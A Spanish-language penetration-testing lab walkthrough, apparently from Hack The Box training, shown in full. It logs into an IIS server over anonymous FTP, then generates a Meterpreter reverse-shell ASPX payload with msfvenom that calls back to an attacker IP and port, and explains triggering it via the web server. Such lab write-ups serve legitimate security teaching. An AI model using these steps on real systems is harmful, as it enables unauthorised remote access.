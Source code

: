 ### Acceso Anónimo por FTP

```bash
sherlock28@htb[/htb]$ ftp 10.10.10.5
```

```vbnet
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: ******
230 User logged in.
Remote system type is Windows_NT.
```

```bash
ftp> ls
```

```arduino
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Al notar el directorio `aspnet_client`, nos damos cuenta de que la máquina podrá ejecutar shells reversos `.aspx`. Afortunadamente, MSFVenom puede hacer eso sin ningún problema.

### Generando la Carga Útil

```bash
sherlock28@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```

```yaml
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2819 bytes
```

```bash
sherlock28@htb[/htb]$ ls
```

```
Desktop  Documents  Downloads  my_data  Postman  PycharmProjects  reverse_shell.aspx  Templates
```

Ahora solo necesitamos navegar a `http://10.10.10.5/reverse_shell.aspx`, y esto activará la carga útil `.aspx`. Sin embargo, antes de hacerlo, deberíamos iniciar un listener en msfconsole para que la solicitud de conexión inversa se capture dentro de él.
